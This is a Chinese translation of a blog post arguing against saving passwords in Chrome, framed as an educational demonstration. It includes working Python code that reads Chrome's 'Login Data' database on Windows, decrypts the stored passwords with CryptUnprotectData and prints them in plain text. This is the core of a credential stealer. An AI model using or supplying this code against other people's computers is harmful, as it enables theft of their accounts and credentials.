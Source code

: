 # 为什么永远不要在 Chrome 或 Firefox 上保存密码

> 原文：<https://medium.com/hackernoon/why-you-should-never-save-passwords-on-chrome-or-firefox-96b770cfd0d0>

## 用 12 行代码提取您的明文密码

![](img/296bc60a116a31709d899929812f814d.png)

在这篇文章中，我将展示黑客提取你的 Chrome 档案中的每个用户名和密码是多么容易。有人会认为 Chrome 会有安全措施来加密你的密码，但显然事实并非如此——算是吧。我的 Chrome 个人资料，像许多其他人一样，设置了另一个加密密码，我必须输入才能同步我所有的密码、书签、设置、浏览器历史等。所以对我来说，提取和解密我的密码是如此容易，这让我非常震惊。*十二行代码简单易行。*

# 概念演示和验证

在我们开始之前，我应该提一下，我还没有在 macOS 或任何 Linux 发行版上测试过这个。要复制此演示，您必须使用 Python 在 Windows 环境下运行。

首先，让我们开始导入所有需要的依赖项，并设置 Chrome 配置文件用户数据的文件夹位置。必需的依赖项:sqlite3 和 win32crypt

```
# os and sqlite3 ships with Python by default. If you get import errors for win32crypt use "pip install pypiwin32" to install the dependency.import os, sqlite3, win32crypt# Automatically get the logged in user's default folderdata = os.path.expanduser('~')+"\AppData\Local\Google\Chrome\User Data\Default\Login Data"
```

接下来，我们将不得不使用 sqlite3 连接到 Chrome 存储所有用户数据的数据库。让我们来看看数据库结构。我使用了一个名为 SQLite Expert 的免费工具，但软件的选择并不重要，甚至不需要——我只是一个非常视觉化的家伙。

![](img/c88cea54156904c1d0cf248d0621ff3a.png)

The database structure of how your passwords are stored on Chrome

在查看数据库表时，有三列引起了我的注意:*动作 _url、用户名 _ 值和密码 _ 值*。注意*密码值*类型是 BLOB——它是加密的，但是设计很差(我们稍后会谈到)。

![](img/b2ac678adaab70bc085df3e38576589a.png)

Looks like a bunch of gibberish, right? Not for long.

从这里开始，我们将进行一个简单的 SQL 查询来获取相应的值，并存储它们以供解密。

如果你得到一个关于数据库被锁定的错误，那是因为另一个程序(可能是你正在阅读的 Chrome 窗口😉)已经打开了数据库。你需要关闭所有的 Chrome 窗口，并且最好按 control+alt+delete 来确保没有 Chrome 服务在运行。

```
# Connect to Login Data databaseconnection = sqlite3.connect(data)
cursor = connection.cursor()# Query the values of interest to uscursor.execute('SELECT action_url, username_value, password_value FROM logins')
final_data = cursor.fetchall()# Close the database connectioncursor.close()
```

我们现在收集的加密密码是由 Windows 函数 *CryptProtectData* 生成的。数据只能由拥有相同 *Windows* 登录凭证的用户解密，并且只能在加密数据的同一台计算机上解密。听起来超级安全！对吗？

嗯，不。如果黑客已经设法进入你的计算机，无论是通过一个未受保护的端口还是你设法感染的僵尸网络类型的木马，那么黑客已经有了你的 Windows 凭据，解密功能将在你的计算机上运行。正如有 *CryptProtectData* 一样，也有 *CryptUnprotectData* 函数，我们将使用它来获取密码的明文版本。

```
# Iterating through all the values found...for chrome_logins in final_data:
    password = win32crypt.CryptUnprotectData(chrome_logins[2], None, None, None, 0)[1]
    print("Website  : "+str(chrome_logins[0]))
    print("Username : "+str(chrome_logins[1]))
    print("Password : "+str(password))
```

仅此而已。在短短的 12 行代码中，我以明文**的形式提取了自 2011 年**以来所有 588 个保存的密码。

![](img/44de73fe118d06a54e602abb113eb10d.png)

其他敏感数据，如浏览历史和 cookies，也可以使用类似的方法轻松提取。

# 结束语

我认为使用不同的密码登录每个网站足以保护我自己。对于提供双因素身份验证的站点来说，这可能是真的，但现实是大多数站点尚未集成 2FA 功能。

那么我们如何保护自己的密码呢？现在市场上有很多第三方密码管理器，这似乎是一个明智的选择(自己做研究，因为坦白地说，我到现在还没有用过它们，所以不能提供建议)。不过，有一点很清楚——依靠 Chrome 来保护你的密码是一个非常非常糟糕的主意。

我不得不承认，浏览密码列表就像是在回忆中旅行。我早就忘记的网站，我忘记的账户，甚至一些我忘记了我有资金的加密货币交易所。下面是这个脚本的一个稍微长一点的版本，它将所有信息保存到一个文本文件中，如果您想查看您保存的全部登录数据，就可以查看这个文本文件。

声明:我不对任何白痴以任何非法或道德上有问题的方式误用这个脚本的决定负责。这次演示完全是为了教育目的。